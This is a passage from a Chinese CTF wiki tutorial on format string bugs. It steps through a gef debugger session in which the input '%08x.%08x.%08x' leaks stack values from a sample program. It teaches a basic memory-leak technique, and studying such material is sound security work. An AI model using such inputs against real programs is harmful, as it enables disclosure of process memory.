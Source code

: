 之后，运行程序

```shell
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%08x.%08x.%08x
```

此时，程序等待我们的输入，这时我们输入%08x.%08x.%08x，然后敲击回车，是程序继续运行，可以看出程序首先断在了第一次调用printf函数的位置

```shell
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.
────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x1c: 0x000000c2
```

可以看出，此时此时已经进入了printf函数中，栈中第一个变量为返回地址，第二个变量为格式化字符串的地址，第三个变量为a的值，第四个变量为b的值，第五个变量为c的值，第六个变量为我们输入的格式化字符串对应的地址。继续运行程序

```shell
gef➤  c
Continuing.
00000001.22222222.ffffffff.%08x.%08x.%08x

```

可以看出，程序确实输出了每一个变量对应的数值，并且断在了下一个printf处

```shell
Breakpoint 1, __printf (format=0xffffcd10 "%08x.%08x.%08x") at printf.c:28
28	in printf.c
───────────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: "%08x.%08x.%08x"	 ← $eax
```